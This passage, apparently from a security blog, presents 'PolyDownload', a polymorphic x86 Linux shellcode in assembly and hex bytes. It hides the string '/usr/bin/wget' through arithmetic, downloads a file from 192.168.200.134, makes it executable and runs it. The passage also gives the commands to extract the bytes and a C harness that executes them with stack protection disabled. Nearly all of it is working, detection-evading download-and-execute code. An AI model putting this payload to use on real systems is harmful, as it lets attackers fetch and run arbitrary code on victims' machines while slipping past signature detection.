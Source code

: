     push 0x2f343331 ;/431 
    cdq
    push 0x2e303032 ;.002
    std
    push 0x2e383631 ;.861
    cmp  esi,edi
    push 0x2e323931 ;.291 
    cdq
    mov ecx,esp
    push edx
    
    push 0x74 ;t
    mov  esi, 0x101221DA
    add  esi, 0x55555555
    mov  dword [esp-4],esi
    mov  esi, 0x2A251DEB
    add  esi, 0x44444444
    mov  dword [esp-8],esi
    mov  esi, 0x3F4041FC
    add  esi, 0x33333333
    mov  dword [esp-12],esi
    sub  esp,12
    mov ebx,esp
    push edx
    push ecx
    push ebx
    mov ecx,esp
    int 0x80
{% endhighlight %}

{% highlight js %}
assembly compilation:
./compile PolyDownload

shellcode extraction:
objdump -d ./PolyDownload|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

shellcode.c compilation:
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

shellcode.c:
{% highlight js %}
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\xc1\xe0\x05\xc1\xe8\x06\xb0\x02\xcd\x80\x31\xdb\x39\xd8\x74\x30\x31\xc0\x39\xfe\xb0\x07\xcd\x80\x31\xc9\xfc\x31\xc0\x50\xb0\x0f\x6a\x78\x89\xe3\xfd\x31\xc9\x39\xfe\x66\xb9\xff\x01\xcd\x80\x31\xc0\x50\x6a\x78\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x6a\x0b\x58\x99\x52\x6a\x78\x68\x31\x33\x34\x2f\x99\x68\x32\x30\x30\x2e\xfd\x68\x31\x36\x38\x2e\x39\xfe\x68\x31\x39\x32\x2e\x99\x89\xe1\x52\x6a\x74\xbe\xda\x21\x12\x10\x81\xc6\x55\x55\x55\x55\x89\x74\x24\xfc\xbe\xeb\x1d\x25\x2a\x81\xc6\x44\x44\x44\x44\x89\x74\x24\xf8\xbe\xfc\x41\x40\x3f\x81\xc6\x33\x33\x33\x33\x89\x74\x24\xf4\x83\xec\x0c\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80";
int main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
{% endhighlight %}

